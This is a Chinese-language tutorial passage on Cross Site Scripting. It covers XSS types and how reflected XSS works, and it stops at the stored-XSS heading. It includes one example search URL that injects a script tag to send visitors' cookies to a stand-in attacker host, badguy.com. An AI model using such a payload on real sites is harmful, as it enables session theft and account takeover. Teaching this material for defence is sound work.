

# XSS Cross Site Scripting

## Cross Site Scripting 的原理

---

根據根據維基百科的定義，##Cross Site Scripting## 是一種網站應用程序的安全漏洞攻擊，是代碼注入的一種。它允許惡意用戶將代碼注入到網頁上，其他用戶在觀看網頁時就會受到影響。這類攻擊通常包含了HTML以及用戶端腳本語言。

## XSS 攻擊概念
---

駭客輸入惡意的程式碼在網站上，若網站沒有驗證使用者的輸入，直接輸出在網頁上，惡意的程式碼就會被執行，就像是在網頁埋了一顆地雷，只要使用者點入原本要觀看的網頁就會遭到攻擊。

* Cross Site Scripting 主要分為:
  * Reflective XSS
  * Persistent XSS
  * Dom-based XSS

1. Reflective XSS攻擊原理

* 就是將使用者輸入的內容**不經驗證直接反射**呈現在頁面中。


>例如:正常的使用者輸入了 shoes，那麼預期網頁上就會顯示 shoes。

* 正常使用者的輸入顯示


* 駭客輸入的惡意程式碼

```
http://www.shop.com/search?query=<script>document.location='http://badguy.com/cookiestealer.php?c='+document.cookie;</script>
```


只要誤點了上面網址，使用者Cookie 就會被送到駭客的網站 badguy.com，駭客取得 Cookie 之後，就可以登入你在 shop.com 的帳號了。

因為此攻擊為被輸入的當下馬上執行，類似**反射**即被稱為 Reflective XSS。

>示意圖



---

## Persistent/Stored XSS攻擊原理